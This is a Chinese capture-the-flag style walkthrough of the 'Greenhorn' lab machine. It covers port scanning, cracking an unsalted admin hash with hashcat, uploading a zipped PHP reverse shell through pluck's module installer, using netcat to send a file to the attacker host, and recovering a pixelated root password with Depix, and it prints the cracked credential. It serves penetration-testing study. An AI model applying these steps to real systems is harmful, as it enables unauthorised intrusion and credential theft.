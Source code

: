 ```yaml
---
description: Easy / 枚举 / 阅读源码 / 文件上传 / 图像解析
---
```


# ✔️ Greenhorn

## 建立立足点

### 信息收集

* 使用Nmap对目标进行开放端口扫描，获得3个开放端口：

```bash
nmap -sC -sV -p- -oA greenhorn 10.129.61.36 --open
```

<figure><img src="../../.gitbook/assets/1 (9).png" alt=""><figcaption></figcaption></figure>

* 将IP和域名添加到/etc/hosts文件后，开始检查80端口上的内容，发现了目标正在运行的软件pluck和admin登录的入口：

<figure><img src="../../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

* 进入admin面板后发现了pluck的版本（4.7.18），随后尝试几个弱口令均失败：

<figure><img src="../../.gitbook/assets/3 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (1).png" alt=""><figcaption></figcaption></figure>

* 转到3000端口依次对其内容进行信息收集，发现其正在运行的是Gitea 1.21.11并且还有目标系统的源码：

<figure><img src="../../.gitbook/assets/8 (12).png" alt=""><figcaption></figcaption></figure>

* 其中有几个文件可以重点关注：admin.php / login.php

<figure><img src="../../.gitbook/assets/9 (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (10).png" alt=""><figcaption></figcaption></figure>

* 在`login.php`这个文件中，其源码描述了关于用户登陆验证的过程。其中使用了SHA-512算法加密了密码(未加盐)，这意味着可以使用暴力破解。并且也指明了密码文件是pass.php：

<figure><img src="../../.gitbook/assets/11 (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (10).png" alt=""><figcaption></figcaption></figure>

* `pass.php`位于/data/settings/pass.php该路径下，里面有一个hash密码，把它保存为一个hashes.txt文件用于后续暴破：

<figure><img src="../../.gitbook/assets/13 (11).png" alt=""><figcaption></figcaption></figure>

* 在hash example上查找对应的模式，用于hashcat暴破（不确定是哪种就附近几个都试一下）：

<figure><img src="../../.gitbook/assets/14 (9).png" alt=""><figcaption></figcaption></figure>

```bash
hashcat -m 1700 hashes.txt rockyou.txt
```

<figure><img src="../../.gitbook/assets/15 (9).png" alt=""><figcaption></figcaption></figure>

* 暴破出明文密码：<mark style="color:red;">**iloveyou1**</mark>，由此获得第一个有效凭证: <mark style="color:red;">**admin : iloveyou1**</mark>

<figure><img src="../../.gitbook/assets/16 (7).png" alt=""><figcaption></figcaption></figure>

* 利用该凭证成功登录80端口的admin界面：

<figure><img src="../../.gitbook/assets/17 (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (7).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 在信息枚举阶段获取到的Web页面运行的pluck 4.7.18确实是有一个远程代码执行的漏洞，但是在本例中的漏洞利用阶段仅起到了辅助作用，并未直接利用：

<figure><img src="../../.gitbook/assets/5 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1).png" alt=""><figcaption></figcaption></figure>

* 从该漏洞脚本中可以确认其上传文件的类型是zip类型，这为后续上传反弹shell做了提示：

<figure><img src="../../.gitbook/assets/7 (12).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 通过之前收集到的信息和发现的可利用脚本得知，可以往包含漏洞的目标系统上上传利用脚本，这里直接上传常用的一个php的反弹shell脚本（pentestmonkey），修改自己的kali本机IP和端口，做好监听:

<figure><img src="../../.gitbook/assets/21 (5).png" alt=""><figcaption></figcaption></figure>

* 本例中有两个可以上传的功能点，一个是manage files，一个是manage modules，分别尝试等待回连：

<figure><img src="../../.gitbook/assets/22 (5).png" alt=""><figcaption></figcaption></figure>

* 直接上传php脚本可以上传成功，但是无法触发，因为目标做了保护直接在我的脚本后面加了txt后缀：

<figure><img src="../../.gitbook/assets/23 (5).png" alt=""><figcaption></figcaption></figure>

* 根据之前找到的pluck 4.7.18远程代码执行漏洞的脚本提示，需要将上传的文件压缩成ZIP文件才可以成功执行，所以把反弹shell脚本压缩成ZIP文件：

```bash
zip revershell.zip revershell.php
```

<figure><img src="../../.gitbook/assets/24 (4).png" alt=""><figcaption></figcaption></figure>

* 再次上传发现还是可以成功，但仍然无法执行回连：

<figure><img src="../../.gitbook/assets/25 (3).png" alt=""><figcaption></figcaption></figure>

* 切换测试下一个上传点

### GET SHELL

* 可尝试用之前的有效凭证登录一下ssh服务，但是失败：

<figure><img src="../../.gitbook/assets/18 (8).png" alt=""><figcaption></figcaption></figure>

* 在manage modules中的install a module中尝试上传反弹shell：

<figure><img src="../../.gitbook/assets/26.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27.png" alt=""><figcaption></figcaption></figure>

* 至此，上传成功后即可获得回连的shell：

<figure><img src="../../.gitbook/assets/28 (4).png" alt=""><figcaption></figcaption></figure>

* 但是当枚举出user.txt文件后，发现没有权限访问其内容：

<figure><img src="../../.gitbook/assets/29.png" alt=""><figcaption></figcaption></figure>

* 因为该文件是位于junior用户的/home目录中，而我当前的用户是www-data，需要切换到junior账户下才能读取，这里又是一个密码重用的问题：

<figure><img src="../../.gitbook/assets/30.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单的执行手动枚举时，发现当前账户junior并没有一些基本命令的执行权限：

<figure><img src="../../.gitbook/assets/31.png" alt=""><figcaption></figcaption></figure>

* 并且在之前读取user.txt文件时，在其/home目录下还发现了一个PDF文件：Using OpenVAS.pdf

```bash
# 将远程文件传输到Kali本地：
nc 10.10.16.14 1234 < 'Using OpenVAS.pdf'
nc -lvnp 1234 > usingOpenVAS.pdf
```

<figure><img src="../../.gitbook/assets/32.png" alt=""><figcaption></figcaption></figure>

* 该pdf文件描述了只有root用户可以使用\`sudo /usr/sbin/openvas\`命令，并且附上了密码，不过该密码被打上了码：

<figure><img src="../../.gitbook/assets/33.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例学习到了一个新工具：Depix，该工具是用于将打了码的模糊图像恢复成文本的工具。提供给该工具进行解析的图片文件不要用截图工具，直接将鼠标放在模糊的文本处，save image as...即可保存。
{% endhint %}

* Depix的使用方法在它的GitHub页面有说明 ：

<figure><img src="../../.gitbook/assets/34.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 运行Depix后解析出来了文本图片，该文本也就是root账户的明文密码，随后切换为root用户登录即可：

<figure><img src="../../.gitbook/assets/35.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/36.png" alt=""><figcaption></figcaption></figure>

* 重新连接一下：

<figure><img src="../../.gitbook/assets/37.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/38.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例Get Shell阶段枚举、阅读源码和对各个上传点的尝试是重点，提权部分不算典型的OSCP机型，图像解析的部分更偏向于CTF。该机器确实不属于困难机器，只是之前没有遇到过将打码图片转换为清晰图像的情况。

(本例机器中途重置过，IP地址有改变，但不影响其利用过程和实现结果)
{% endhint %}
